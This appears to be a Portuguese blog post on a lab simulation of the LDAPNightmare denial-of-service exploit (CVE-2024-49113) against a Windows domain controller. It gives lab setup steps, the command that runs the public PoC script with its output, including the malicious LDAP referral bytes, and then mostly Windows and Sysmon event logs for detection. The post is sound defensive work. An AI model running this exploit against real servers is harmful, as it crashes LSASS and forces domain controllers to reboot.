





## TL;DR

A vulnerabilidade <kbd>CVE-2024-49113</kbd> permite ataques de negação de serviço (DoS) contra servidores Windows através da exploração do protocolo LDAP. Este artigo detalha a configuração de um ambiente de simulação, a execução da prova de conceito e a análise dos logs gerados para detectar o ataque. Foram identificados EventIDs críticos para o monitoramento, como o 1000, 1001 e 1074. A simulação ajuda na compreensão do ataque e na criação de medidas de defesa eficazes.

## 1. Introdução

A vulnerabilidade <kbd>CVE-2024-49113</kbd>, que afeta servidores Windows e controladores de domínio (DCs), permite que invasores explorem falhas no serviço LDAP, resultando assim em negação de serviço (DoS) e, potencialmente, execução remota de código (RCE), segundo a CVE-2024-49112. Embora a Microsoft tenha lançado patches de segurança para corrigir a falha, ainda é necessário estar atento à detecção e mitigação da exploração dessa vulnerabilidade em seus ambientes. Neste artigo, vamos abordar como simular o ataque e como identificar o ataque, por meio dos logs do sistema e regras Sigma.

## 2. Entendendo o Ataque: Exploração da Vulnerabilidade LDAP

A <kbd>CVE-2024-49113</kbd> afeta a forma como servidores Windows processam consultas LDAP maliciosas, permitindo que um atacante não autenticado execute um ataque de DoS, forçando o servidor a reiniciar. O ataque se dá ao manipular as consultas LDAP e abusar do fluxo de comunicação, desde o envio de consultas DNS até respostas LDAP maliciosas.

Resumidamente, o fluxo de ataque segue:

- O invasor envia uma solicitação DCE/RPC para a máquina do servidor da vítima.
- A vítima é acionada para enviar uma consulta SRV DNS sobre SafeBreachLabs.pro.
- O servidor DNS do Invasor responde com o nome de host da máquina e a porta LDAP do Invasor.
- A vítima envia uma solicitação NBNS de transmissão para encontrar o endereço IP do nome do host recebido (do invasor).
- O invasor envia uma resposta NBNS com seu endereço IP.
- A vítima se torna um cliente LDAP e envia uma solicitação CLDAP para a máquina do invasor.
- O invasor envia um pacote de resposta de referência CLDAP com um valor específico, resultando em LSASS para travar e forçar uma reinicialização do servidor vítima.



Para um entendimento detalhado da exploração, você pode consultar o post ofical da [SafeBreachs](https://www.safebreach.com/blog/ldapnightmare-safebreach-labs-publishes-first-proof-of-concept-exploit-for-CVE-2024-49113/) ao final da página em referências.

## 3. Configurando o ambiente

Como não temos DNS público nem domínio nem nada, vamos usar o próprio domínio que a SafeBreachs usou durante a PoC para também simularmos no nosso lab.

#### Os passos são:

- No seu Kali Linux, abra a pasta `/etc/samba/smb.conf` e inclua o comando abaixo no fim da página:

```bash
[global]
netbios name = sbattacker
wins support = yes
```

- Reinicie o serviço com o comando `sudo systemctl restart smbd`. Caso você esteja utilizando outro Linux, precisará configurar o Samba na máquina.
- Agora, no seu Windows, você precisa configurar o IP do seu Kali como o DNS do servidor. Você pode incluir manual ou usar o comando:

```powershell
Set-DnsClientServerAddress -InterfaceAlias "Ethernet" -ServerAddresses 172.16.0.250
```



- Você também precisa configurar o IP do seu Kali no arquivo `hosts` do Windows. Você pode incluir manual ou usar o comando:

```powershell
Add-Content -Path "C:\Windows\System32\drivers\etc\hosts" -Value "172.16.0.250 sbattacker"
```

- Depois de configurado faça os testes abaixo:

```powershell
ping sbattacker # Veja se responde ao IP do seu Kali
# Veja se responde ao sbattacker (host configurado no smb do Kali)
nslookup -type=SRV _ldap._tcp.Default-First-Site-Name._sites.dc._msdcs.safebreachlabs.pro 
nslookup -type=SRV _ldap._tcp.dc._msdcs.safebreachlabs.pro 
```



- Se tudo ocorreu certo, seu ambiente está pronto para ser testado:

```bash
# No Kali execute:
python LdapNightmare.py 172.16.0.10 -d safebreachlabs.pro # 172.16.0.10 é o IP do meu DC

OUTPUT
------
[LDAP Nightmare:INFO] - Waiting for udp server to start...
[LDAP Nightmare:INFO] - NetLogon connected
[LDAP Nightmare:INFO] - Calling DsrGetDcNameEx2 now...
[LDAP Nightmare:INFO] - Connected to 172.16.0.10:49664
[LDAP Nightmare:INFO] - Sending DsrGetDcNameEx2 request...
[LDAP Nightmare:INFO] - Received LDAP request from NetLogon ('172.16.0.10', 51740)
[LDAP Nightmare:INFO] - Sending malicious LDAP response packet to ('172.16.0.10', 51740): b'0&\x02\x04\x02\x00\x00\x08e\x1e\n\x01\n\x04\x00\x04\x00\xa3\x15\x04\x13ldap://referral.com'
[LDAP Nightmare:INFO] - Successfuly triggered the vulnerability!
```

## 4. Da detecção via logs do Windows e Sysmon

### 4.1. EventID's identificados:

Abaixo, seguem alguns EventID's que eu considerei relevante para consulta. Eles seguem a ordem em que foram gerados no meu Lab com base no `EventTime` e não no `EventReceivedTime`:

| **EventID** |              **Channel**             |            **SourceName**           | **EventType** |                                     Observações                                    |
|:-----------:|:------------------------------------:|:-----------------------------------:|:-------------:|:----------------------------------------------------------------------------------:|
|     1000    |              Application             |          Application Error          |     ERROR     |       Principal evento que dá maiores detalhes sobre a falha no `lsass.exe`.       |
|     1001    |              Application             |       Windows Error Reporting       |      INFO     |      Fault bucket (Evento que detecta a falha no `lsass.exe` e `WLDAP32.dll`).     |
|     4624    |               Security               | Microsoft-Windows-Security-Auditing | AUDIT_SUCCESS |                        Autenticação com o ususário `SYSTEM`.                       |
|      10     | Microsoft-Windows-Sysmon/Operational |       Microsoft-Windows-Sysmon      |      INFO     |           Evento que informa que o `WerFault.exe` acessou o `lsass.exe`.           |
|     1074    |                System                |                User32               |      INFO     | É o evento que informa que houve algum problema desconhecido e reinicia o sistema. |
|      22     | Microsoft-Windows-Sysmon/Operational |       Microsoft-Windows-Sysmon      |      INFO     |             Mostra o nome do host e o ip consultados pelo `lsass.exe`.             |

### 4.2. EventID 1000 – Application Error

**Log:**

```yml {title="Channel: Application"}
Faulting application name: lsass.exe, version: 10.0.20348.2340, time stamp: 0x343412e1
Faulting module name: WLDAP32.dll, version: 10.0.20348.2652, time stamp: 0xdc811887
Exception code: 0xc0000005
Fault offset: 0x0000000000031dd3
Faulting process id: 0x2a8
Faulting application start time: 0x01db6394e91f2214
Faulting application path: C:\Windows\system32\lsass.exe
Faulting module path: C:\Windows\System32\WLDAP32.dll
Report Id: a45f7e05-825a-4911-9637-a9cf02ed210e
Faulting package full name: 
Faulting package-relative application ID:
```

**Descrição:** Esse evento indica que o processo `lsass.exe` falhou devido a uma falha de acesso no módulo `WLDAP32.dll`. O código de exceção 0xc0000005 representa um erro de `STATUS_ACCESS_VIOLATION`, ou seja, o processo tentou acessar uma área de memória inválida. Link na referência.

Uma coisa curiosa que podemos notar fazer iniciar o debug do LDAP é ver tudo o que foi enviado do script para o DC, como podemos ver logo abaixo. Para ativar o modo debug, veja o link da referência.

```yml {title="Log de depuração do LDAP"}
[0]0BD8.27C0::2025/01/10-23:57:50.464648300 [MSNT_SystemTrace]
{
    "EventVersion": 0,
    "Reserved": 0,
    "PartitionType": 0,
    "QpcOffsetFromRoot": 0,
    "PartitionId": "",
    "ParentId": "",
    "meta": {
        "provider": "MSNT_SystemTrace",
        "event": "PartitionInfoExtensionV2",
        "time": "2025-01-11T02:57:50.4646483Z",
        "cpu": 0,
        "pid": 3032,
        "tid": 10176,
        "task": "EventTrace"
    }
}
[1]08DC.1D74::2025/01/10-23:57:53.961263700 [Microsoft-Windows-LDAP-Client]
{
    "ScopeOfSearch": 0,
    "SearchFilter": "(objectclass=*)",
    "DistinguishedName": "",
    "AttributeList": "supportedCapabilities",
    "ProcessId": "0x8DC",
    "meta": {
        "provider": "Microsoft-Windows-LDAP-Client",
        "event": "30v0",
        "time": "2025-01-11T02:57:53.9612637Z",
        "cpu": 1,
        "pid": 2268,
        "tid": 7540,
        "channel": "Microsoft-Windows-LDAP-Client/Debug",
        "keywords": "search"
    }
}
[1]08DC.1D74::2025/01/10-23:57:53.961430100 [Microsoft-Windows-LDAP-Client]
{
    "ScopeOfSearch": 0,
    "SearchFilter": "(objectclass=*)",
    "DistinguishedName": "",
    "AttributeList": "supportedSASLMechanisms",
    "ProcessId": "0x8DC",
    "meta": {
        "provider": "Microsoft-Windows-LDAP-Client",
        "event": "30v0",
        "time": "2025-01-11T02:57:53.9614301Z",
        "cpu": 1,
        "pid": 2268,
        "tid": 7540,
        "channel": "Microsoft-Windows-LDAP-Client/Debug",
        "keywords": "search"
    }
}
[0]08DC.1D74::2025/01/10-23:57:53.966142200 [Microsoft-Windows-LDAP-Client]
{
    "ScopeOfSearch": 0,
    "SearchFilter": "(objectclass=*)",
    "DistinguishedName": "",
    "AttributeList": "dsServiceName;isGlobalCatalogReady",
    "ProcessId": "0x8DC",
    "meta": {
        "provider": "Microsoft-Windows-LDAP-Client",
        "event": "30v0",
        "time": "2025-01-11T02:57:53.9661422Z",
        "cpu": 0,
        "pid": 2268,
        "tid": 7540,
        "channel": "Microsoft-Windows-LDAP-Client/Debug",
        "keywords": "search"
    }
}
[1]08DC.1D74::2025/01/10-23:57:53.966891000 [Microsoft-Windows-LDAP-Client]
{
    "ScopeOfSearch": 0,
    "SearchFilter": "(objectclass=*)",
    "DistinguishedName": "CN=NTDS Settings,CN=DC01,CN=Servers,CN=CORP,CN=Sites,CN=Configuration,DC=CORP,DC=LOCAL",
    "AttributeList": "options",
    "ProcessId": "0x8DC",
    "meta": {
        "provider": "Microsoft-Windows-LDAP-Client",
        "event": "30v0",
        "time": "2025-01-11T02:57:53.9668910Z",
        "cpu": 1,
        "pid": 2268,
        "tid": 7540,
        "channel": "Microsoft-Windows-LDAP-Client/Debug",
        "keywords": "search"
    }
}
[1]02A0.0664::2025/01/10-23:58:13.275826200 [Microsoft-Windows-LDAP-Client]
{
    "ScopeOfSearch": 0,
    "SearchFilter": "(&(DnsDomain=safebreachlabs\\2Epro)(Host=DC01)(User=sbattacker)(AAC=\\10\\00\\00\\00)(DomainGuid=\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00\\00)(NtVer=\\16\\00\\00\\01)(DnsHostName=DC01\\2ECORP\\2ELOCAL))",
    "DistinguishedName": "",
    "AttributeList": "Netlogon",
    "ProcessId": "0x2A0",
    "meta": {
        "provider": "Microsoft-Windows-LDAP-Client",
        "event": "30v0",
        "time": "2025-01-11T02:58:13.2758262Z",
        "cpu": 1,
        "pid": 672,
        "tid": 1636,
        "channel": "Microsoft-Windows-LDAP-Client/Debug",
        "keywords": "search"
    }
}
[0]0928.1990::2025/01/10-23:58:17.688201100 [Microsoft-Windows-LDAP-Client]
{
    "ScopeOfSearch": 0,
    "SearchFilter": "(objectCategory=*)",
    "DistinguishedName": "CN=DNS Settings,CN=DC01,CN=Servers,CN=CORP,CN=Sites,CN=Configuration,DC=CORP,DC=LOCAL",
    "AttributeList": "msDNS-KeymasterZones",
    "ProcessId": "0x928",
    "meta": {
        "provider": "Microsoft-Windows-LDAP-Client",
        "event": "30v0",
        "time": "2025-01-11T02:58:17.6882011Z",
        "cpu": 0,
        "pid": 2344,
        "tid": 6544,
        "channel": "Microsoft-Windows-LDAP-Client/Debug",
        "keywords": "search"
    }
}
```

### 4.3. EventID 1001 – Windows Error Reporting

**Log:**

```yml {title="Channel: Application"}
Fault bucket , type 0
Event Name: CriticalProcessFault2
Response: Not available
Cab Id: 0

Problem signature:
P1: lsass.exe
P2: 10.0.20348.2340
P3: 343412e1
P4: WLDAP32.dll
P5: 10.0.20348.2652
P6: dc811887
P7: c0000005
P8: 0000000000031dd3
P9: 00000000
P10: 0x00000000

Attached files:

These files may be available here:
\\?\C:\ProgramData\Microsoft\Windows\WER\ReportQueue\AppCrash_lsass.exe_e4a209b6d398687ac0e31ecf89d9a4b69bd66_c660ab9f_19386d81-9ff6-4769-a2d5-d2efdb78fd0c

Analysis symbol: 
Rechecking for solution: 0
Report Id: a45f7e05-825a-4911-9637-a9cf02ed210e
Report Status: 4
Hashed bucket: 
Cab Guid: 0
```

**Descrição:** Esse evento é gerado pelo Windows Error Reporting logo após o evento 1000, para relatar o crash do processo `lsass.exe`. Ele fornece detalhes adicionais e é uma continuação do evento anterior. Maiores detalhes no link da referência.

### 4.4. EventID 4624 – Logon bem-sucedido

**Log:**

```yml {title="Channel: Application"}
An account was successfully logged on.

Subject:
	Security ID:		S-1-5-18
	Account Name:		DC01$
	Account Domain:		CORP
	Logon ID:		0x3E7

Logon Information:
	Logon Type:		5
	Restricted Admin Mode:	-
	Virtual Account:		No
	Elevated Token:		Yes

Impersonation Level:		Impersonation

New Logon:
	Security ID:		S-1-5-18
	Account Name:		SYSTEM
	Account Domain:		NT AUTHORITY
	Logon ID:		0x3E7
	Linked Logon ID:		0x0
	Network Account Name:	-
	Network Account Domain:	-
	Logon GUID:		{00000000-0000-0000-0000-000000000000}

Process Information:
	Process ID:		0x288
	Process Name:		C:\Windows\System32\services.exe

Network Information:
	Workstation Name:	-
	Source Network Address:	-
	Source Port:		-

Detailed Authentication Information:
	Logon Process:		Advapi  
	Authentication Package:	Negotiate
	Transited Services:	-
	Package Name (NTLM only):	-
	Key Length:		0

This event is generated when a logon session is created. It is generated on the computer that was accessed.

The subject fields indicate the account on the local system which requested the logon. This is most commonly a service such as the Server service, or a local process such as Winlogon.exe or Services.exe.

The logon type field indicates the kind of logon that occurred. The most common types are 2 (interactive) and 3 (network).

The New Logon fields indicate the account for whom the new logon was created, i.e. the account that was logged on.

The network fields indicate where a remote logon request originated. Workstation name is not always available and may be left blank in some cases.

The impersonation level field indicates the extent to which a process in the logon session can impersonate.

The authentication information fields provide detailed information about this specific logon request.
	- Logon GUID is a unique identifier that can be used to correlate this event with a KDC event.
	- Transited services indicate which intermediate services have participated in this logon request.
	- Package name indicates which sub-protocol was used among the NTLM protocols.
	- Key length indicates the length of the generated session key. This will be 0 if no session key was requested.
```

**Descrição:** Este evento indica que houve um logon bem-sucedido no sistema. O tipo de logon 5 corresponde a "Service Logon", ou seja, um serviço foi iniciado no sistema. O logon foi realizado pelo próprio sistema operacional, conforme mostrado no log. O `services.exe` é o processo responsável por gerenciar os serviços do Windows.

A princípio, não havia entendido o por quê de ter gerado esse evento e pensei ser apenas um falso-positivo, mas depois de ver a _Call Trace_ do processo, eu suspeito que seja porque uma das dlls usadas é justamente o RPC, como vimos no gráfico do Tópico 2. Não tenho certeza quanto a isso, é apenas uma hipótese.




### 4.5. EventID 10 – Sysmon: ProcessAccess

O EventID 10 foi um evento que gerou alguns logs, sendo que dois processos acessaram o `lsass.exe`, como podemos ver no exemplo abaixo:

**Log1:**

```yml {title="Channel: Microsoft-Windows-Sysmon/Operational"}
# Esse é o log do processo WerFault.exe
Process accessed:
RuleName: technique_id=T1003,technique_name=Credential Dumping
UtcTime: 2025-01-10 19:32:44.758
SourceProcessGUID: {12a9cc09-75dc-6781-9900-000000002d00}
SourceProcessId: 10948
SourceThreadId: 4332
SourceImage: C:\Windows\system32\WerFault.exe
TargetProcessGUID: {12a9cc09-7353-6781-0c00-000000002d00}
TargetProcessId: 680
TargetImage: C:\Windows\system32\lsass.exe
GrantedAccess: 0x1FFFFF
CallTrace: C:\Windows\SYSTEM32\ntdll.dll+a0694|C:\Windows\SYSTEM32\ntdll.dll+dba00|C:\Windows\System32\KERNEL32.DLL+1e404|C:\Windows\System32\KERNEL32.DLL+258be|C:\Windows\system32\dbgcore.DLL+a47a|C:\Windows\system32\dbgcore.DLL+19735|C:\Windows\system32\dbgcore.DLL+12988|C:\Windows\system32\dbgcore.DLL+66a8|C:\Windows\system32\dbgcore.DLL+71b8|C:\Windows\system32\faultrep.dll+1a396|C:\Windows\system32\faultrep.dll+14ea5|C:\Windows\system32\faultrep.dll+11e8a|C:\Windows\system32\faultrep.dll+11dda|C:\Windows\system32\faultrep.dll+fd76|C:\Windows\system32\WerFault.exe+3bde1|C:\Windows\system32\WerFault.exe+79df|C:\Windows\system32\WerFault.exe+54fe1|C:\Windows\System32\KERNEL32.DLL+14cb0|C:\Windows\SYSTEM32\ntdll.dll+7eceb
SourceUser: NT AUTHORITY\SYSTEM
TargetUser: NT AUTHORITY\SYSTEM
```

**Log2:**

```yml {title="Channel: Microsoft-Windows-Sysmon/Operational"}
# Esse é o log do processo svchost.exe
Process accessed:
RuleName: technique_id=T1003,technique_name=Credential Dumping
UtcTime: 2025-01-10 19:32:44.298
SourceProcessGUID: {12a9cc09-75dc-6781-9700-000000002d00}
SourceProcessId: 3616
SourceThreadId: 6416
SourceImage: C:\Windows\System32\svchost.exe
TargetProcessGUID: {12a9cc09-7353-6781-0c00-000000002d00}
TargetProcessId: 680
TargetImage: C:\Windows\system32\lsass.exe
GrantedAccess: 0x1FFFFF
CallTrace: C:\Windows\SYSTEM32\ntdll.dll+a0694|C:\Windows\System32\KERNELBASE.dll+44c6e|c:\windows\system32\wersvc.dll+1b1a4|c:\windows\system32\wersvc.dll+17cd7|c:\windows\system32\wersvc.dll+1456c|c:\windows\system32\wersvc.dll+139c1|c:\windows\system32\wersvc.dll+137b9|C:\Windows\SYSTEM32\ntdll.dll+7233|C:\Windows\SYSTEM32\ntdll.dll+bb26|C:\Windows\System32\KERNEL32.DLL+14cb0|C:\Windows\SYSTEM32\ntdll.dll+7eceb
SourceUser: NT AUTHORITY\SYSTEM
TargetUser: NT AUTHORITY\SYSTEM
```

**Descrição:** Esse evento foi registrado pelo Sysmon e indica que o processo `WerFault.exe` tentou acessar o processo `lsass.exe` com o nível de acesso `0x1FFFFF`, que corresponde a permissões totais (leitura, gravação e execução). O `svchost.exe` também teve o mesmo comportamento que o evento anterior.

Quando um aplicativo ou componente do sistema falha, o `WerFault.exe` é acionado para coletar informações sobre o erro e, se permitido pelo usuário, enviar esses dados para a Microsoft. Isso auxilia na melhoria contínua do Windows por meio da análise de padrões de falhas e desenvolvimento de correções.

### 4.6. EventID 1074 – Reinicialização iniciada pelo sistema

**Log:**

```yml {title="Channel: System"}
The process wininit.exe has initiated the restart of computer DC01 on behalf of user  for the following reason: No title for this reason could be found
 Reason Code: 0x50006
 Shutdown Type: restart
 Comment: The system process 'C:\Windows\system32\lsass.exe' terminated unexpectedly with status code -1073741819.  The system will now shut down and restart.
```

**Descrição:** Esse evento indica que o processo `wininit.exe` iniciou a reinicialização do computador devido à falha crítica do processo `lsass.exe`. O código de status `-1073741819` (0xc0000005 em hexadecimal) é uma indicação de violação de acesso, ou seja, o `lsass.exe` tentou acessar uma área de memória inválida e foi encerrado pelo sistema.

Apesar de eu não ter encontrado nada relacionado ao hexadecimal, deixei referências para consultas de caráter acadêmico. Outro link bastante curioso que deixei nas referência é sobre um artigo da Microsoft falando sobre o LSASS parar de responder e até reiniciar, o que me dá a entender que isso já era um problema conhecido, suposições minha.


### 4.2. EventID 22 – Sysmon: DNSEvent (DNS query)

**Log1:**

```yml {title="Channel: Microsoft-Windows-Sysmon/Operational"}
Dns query:
RuleName: -
UtcTime: 2025-01-10 19:32:44.077
ProcessGuid: {12a9cc09-7353-6781-0c00-000000002d00}
ProcessId: 680
QueryName: sbattacker
QueryStatus: 0
QueryResults: ::ffff:172.16.0.250;
Image: C:\Windows\System32\lsass.exe
User: NT AUTHORITY\SYSTEM
```

**Log2:**

```yml {title="Channel: Microsoft-Windows-Sysmon/Operational"}
Dns query:
RuleName: -
UtcTime: 2025-01-10 19:32:44.077
ProcessGuid: {12a9cc09-7353-6781-0c00-000000002d00}
ProcessId: 680
QueryName: _ldap._tcp.dc._msdcs.safebreachlabs.pro.
QueryStatus: 0
QueryResults: type: 33 sbattacker;
Image: C:\Windows\System32\lsass.exe
User: NT AUTHORITY\SYSTEM
```

**Descrição:** Este evento registrado pelo Sysmon indica que o processo `lsass.exe` realizou uma consulta DNS para o domínio `_ldap._tcp.dc._msdcs.safebreachlabs.pro.`. O resultado da consulta mostra que a resposta retornada foi do tipo `SRV (type: 33)`, com o nome `sbattacker`. O domínio consultado é externo e não deveria estar sendo acessado pelo controlador de domínio de um ambiente legítimo, imagino. Isso sugere que pode ter havido uma tentativa de redirecionamento malicioso de consultas LDAP para um servidor controlado por um atacante, que é o nosso caso. O segundo evento mostra que o processo `lsass.exe` realizou uma consulta DNS para o nome `sbattacker`, e a resposta foi o endereço IP 172.16.0.250. O endereço IP retornado (172.16.0.250) é a máquina Kali que está sendo usada para a simulação do ataque. Isso indica que o servidor de DNS respondeu redirecionando a consulta para o atacante, como parte da exploração da vulnerabilidade no ambiente LDAP.

## 5. Da detecção via Aurora

O Aurora, é uma Custom Sigma-based Endpoint Agent, uma solução criada pela Nextron Systems. É um agente de endpoint leve e personalizável baseado em Sigma.

###### **Leia também!**

{{< bs/bookmark-card
url="https://sandsoncosta.github.io/blog/aurora-e-sigma-rules-melhorando-a-efici%C3%AAncia-e-visibilidade-na-detec%C3%A7%C3%A3o-de-amea%C3%A7as-em-windows/"
title="Aurora e Sigma Rules: Melhorando a eficiência e visibilidade na detecção de ameaças em Windows" 
img="https://sandsoncosta.github.io/blog/aurora-e-sigma-rules-melhorando-a-efici%C3%AAncia-e-visibilidade-na-detec%C3%A7%C3%A3o-de-amea%C3%A7as-em-windows/featured-sample_hu12321373160645892747.0a6aa008b424372de03393a9c3aa5e69.webp" 
author="Sandson Costa"
authorImg="https://sandsoncosta.github.io/authors/sandson/image.884b34573e50c208bd581343f0944b81.jpg"
authorIcon="pencil-square"
authorIconVendor="bootstrap"
>}}

Aurora, combinado com regras Sigma, aprimora a detecção de ameaças em Windows, oferecendo uma solução robusta e flexível para ambientes corporativos.



A comunidade em um post no LinkedIn se movimentou e criaram uma regra Sigma para detectar eventos referente à essa CVE. O post pode ser acessado no link de referência. Apesar de ter sido criado uma regra Sigma exclusiva para esse cenário, pude perceber que outras regras capturaram os eventos e podem contribuir para detecção, conforme print abaixo:




## 6. Execução da PoC

<figure style="text-align: center;">
  <video width="640" height="340" controls>
    <source src="poc.mp4" type="video/mp4">
    Seu navegador não suporta a tag de vídeo.
  </video>
  <figcaption><i>PoC do exemplo mostrado acima.</i></figcaption>
</figure>

## 7. Agradecimentos

Gostaria de tornar público a ajuda que recebi do meu colega de profissão [Isaac Fernandes](https://www.linkedin.com/in/isaacfn/) que me ajudou com a configuração do laboratório. Depois de, sei lá, uma semana quebrando a cabeça... O Isaac deu a call e deu bom. O resultado? Este artigo.

## 8. Conclusão

A vulnerabilidade <kbd>CVE-2024-49113</kbd> demonstra como um atacante pode explorar uma falha no processamento de consultas LDAP em servidores Windows, resultando em uma condição de negação de serviço (DoS). Durante a exploração dessa falha, também é possível que o processo LSASS seja forçado a falhar, o que leva ao reinício do sistema. Neste artigo, mostramos como configurar um ambiente controlado para simulação do ataque, executar a prova de conceito (PoC) e identificar os principais indicadores de comprometimento (IoCs) nos logs do Windows e do Sysmon.

Além disso, o artigo forneceu um guia detalhado para a detecção da exploração com base em EventIDs relevantes. Esses eventos são essenciais para a análise forense de incidentes e ajudam na criação de regras de monitoramento em ambientes corporativos.

## 9. Referências

- [LDAPNightmare: SafeBreach Labs Publishes First Proof-of-Concept Exploit for CVE-2024-49113](https://www.safebreach.com/blog/ldapnightmare-safebreach-labs-publishes-first-proof-of-concept-exploit-for-cve-2024-49113/)
- [The application or service crashing behavior troubleshooting guidance](https://learn.microsoft.com/en-us/troubleshoot/windows-server/performance/troubleshoot-application-service-crashing-behavior)
- [Descubra como o WerFault.exe funciona e como gerenciar erros no Windows](https://procedimento.com.br/?p=go&os=windows&windows=descubra-como-o-werfaultexe-funciona-e-como-gerenciar-erros-no-windows)
- [Como ativar o log de depuração do cliente LDAP (Wldap32.dll)](https://learn.microsoft.com/pt-br/troubleshoot/windows-server/active-directory/turn-on-debug-logging-ldap-client)
- [System Shutdown Reason Codes](https://learn.microsoft.com/en-us/windows/win32/shutdown/system-shutdown-reason-codes)
- [Não é possível entrar em um controlador de domínio e o processo LSASS para de responder](https://learn.microsoft.com/pt-br/troubleshoot/windows-server/user-profiles-and-logon/cannot-sign-in-dc-lsass-process-stop-responding)
- [Regra Sigma: CVE-2024-49113 Exploitation Attempt - LDAP Nightmare](https://github.com/SigmaHQ/sigma/blob/master/rules-emerging-threats/2024/Exploits/CVE-2024-49113/win_application_error_exploit_cve_2024_49113_ldap_nightmare.yml)
- [Publicação no LinkedIn de Travis Green sobre a CVE-2024-49113](https://www.linkedin.com/posts/travisgreen_ldapnightmare-activity-7282295814792605698-hSiC/)
- [Vulnerabilidade CVE-2024-49113 LdapNightmare (Passo a passo de configuração no Lab local)](https://github.com/Eyezuhk/InfoSec-Misc/blob/f08525ef7957f176c7e3d2fa0c15619d1b808721/step-by-step-CVE-2024-49113.md)



Por favor, entre em contato comigo pelo meu <a href="https://www.linkedin.com/in/sandsoncosta">LinkedIn</a>.<br>Vou ficar muito contente em receber um feedback seu.


---
<!-- begin wwww.htmlcommentbox.com -->
  <div id="HCB_comment_box"><a href="http://www.htmlcommentbox.com">Widget</a> is loading comments...</div>
 <link rel="stylesheet" type="text/css" href="https://www.htmlcommentbox.com/static/skins/bootstrap/twitter-bootstrap.css?v=0" />
<!-- end www.htmlcommentbox.com -->